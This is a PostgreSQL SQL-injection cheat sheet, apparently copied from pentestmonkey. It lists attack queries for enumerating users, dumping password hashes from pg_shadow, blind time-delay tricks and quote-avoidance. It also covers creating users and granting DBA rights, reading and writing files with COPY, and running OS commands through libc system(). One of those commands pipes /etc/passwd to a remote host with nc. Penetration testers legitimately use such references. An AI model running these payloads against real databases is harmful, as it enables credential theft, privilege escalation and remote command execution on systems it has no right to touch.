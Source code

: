 # All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT version()|
|Comments|SELECT 1; --comment; SELECT /\*comment\*/1; |
|Current User|SELECT user; SELECT current_user; SELECT session_user; SELECT usename FROM pg_user; SELECT getpgusername();|
|List Users|SELECT usename FROM pg_user|
|List Password Hashes|SELECT usename, passwd FROM pg_shadow — priv|
|Password Cracker|MDCrack can crack PostgreSQL’s MD5-based passwords.|
|List Privileges|SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user|
|Check if you are superuser| SELECT current_setting('is_superuser'); |
|List DBA Accounts|SELECT usename FROM pg_user WHERE usesuper IS TRUE|
|Current Database|SELECT current_database()|
|List Databases|SELECT datname FROM pg_database|
|List Columns|SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)|
|List Tables|SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)|
|Find Tables From Column Name|If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;|
|Select Nth Row|SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from; SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;|
|Select Nth Char|SELECT substr(‘abcd’, 3, 1); — returns c|
|Bitwise AND|SELECT 6 & 2; — returns 2; SELECT 6 & 1; –returns 0|
|ASCII Value -> Char|SELECT chr(65);|
|Char -> ASCII Value|SELECT ascii(‘A’);|
|Casting|SELECT CAST(1 as varchar); SELECT CAST(’1′ as int);|
|String Concatenation|SELECT ‘A’ || ‘B’; — returnsAB|
|If Statement|IF statements only seem valid inside functions, so aren’t much use for SQL injection.  See CASE statement instead.|
|Case Statement|SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A|
|Avoiding Quotes|SELECT CHR(65)||CHR(66); — returns AB|
|Time Delay|SELECT pg_sleep(10); — postgres 8.2+ only; CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.  Taken from here .|
|Make DNS Requests|Generally not possible in postgres.  However if contrib/dblinkis installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.|
|Command Execution|CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user|
|Hostname, IP Address|SELECT inet_server_addr(); — returns db server IP address (or null if using local connection); SELECT inet_server_port(); — returns db server IP address (or null if using local connection)|
|Create Users|CREATE USER test1 PASSWORD ‘pass1′; — priv; CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time|
|Drop Users|DROP USER test1; — priv|
|Make User DBA|ALTER USER test1 CREATEUSER CREATEDB; — priv; Location of DB files|SELECT current_setting(‘data_directory’); — priv; SELECT current_setting(‘hba_file’); — priv|
|Default/System Databases|template0; template1
|Dollar Strings| Instead of quotes you can alternatively use $$ (duoble-dollar) for quoting stings, of $ (single-dollar) with tag: SELECT $$TEST$$; SELECT $TAG$TEST$TAG$; |
|Write arbitary data to disc | CREATE TEMP TABLE TEST(data text);INSERT INTO TEST(data) VALUES ($$test$$);COPY TEST(data) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$ | 
|Read data from file| CREATE TEMP TABLE TEST(data text); COPY TEST from $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$; |
|Blind CASE query example| SELECT case when (SELECT current_setting($$is_superuser$$))=$$on$$ then pg_sleep(5) end; |
